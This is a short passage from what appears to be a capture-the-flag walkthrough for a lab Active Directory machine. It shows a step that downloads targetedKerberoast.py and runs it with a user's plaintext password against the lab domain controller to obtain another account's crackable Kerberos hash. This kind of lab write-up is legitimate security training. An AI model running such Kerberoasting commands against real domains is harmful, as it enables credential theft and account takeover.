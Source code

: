 height="2.1866469816272964in"}![](images/media/image26.jpeg){width="2.3058989501312337in"
height="2.8177088801399823in"}

**7.1** **Download targetedKerberoast.py** FILE + **sync time** +
**Displays HASH** of Ethan\'s account

**Source:**
<https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py>

**INFO: Description of targetedKerberoast.py: See STEP 7**

**RUN:** **python targetedKerberoast.py -u \"emily\" -p
\"UXLCI5iETUsIBoFVTj8yQFKoHjXmb\" -d \"Administrator.htb\" \--dc-ip
10.10.11.42**

![](images/media/image27.png){width="6.2972222222222225in"
height="2.7083333333333335in"}
